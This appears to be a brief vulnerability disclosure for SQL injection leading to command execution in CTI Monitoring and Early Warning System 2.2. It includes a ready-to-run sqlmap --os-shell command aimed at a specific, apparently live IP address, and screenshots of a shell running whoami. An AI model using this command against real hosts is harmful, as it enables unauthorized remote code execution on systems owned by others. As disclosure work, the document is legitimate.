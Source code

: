 There is a command execution vulnerability in CTI Monitoring and Early Warning System 2.2

version:v2.2

![image](https://github.com/Ox1dq/cve/assets/134667839/d5e50e98-73f5-4a20-9348-5eb7a841a23e)


In the path /Web/SysManage/UserEdit.aspx?&ID=0, you can use sqlmap to generate delayed injection and successfully getshell and perform command execution operations.

sqlmap command：```python.exe sqlmap.py -u " http://110.167.122.134:9900/ Web/SysManage/UserEdit.aspx?&ID=0" --os-shell –batch```

existence introduction


![image](https://github.com/Ox1dq/cve/assets/134667839/3b81b9ea-40a8-4680-99df-4d261d1a14b9)

Write to shell and execute the whoami command
![image](https://github.com/Ox1dq/cve/assets/134667839/9d503a8c-eed8-490c-97bf-7ea3cf0cf28e)
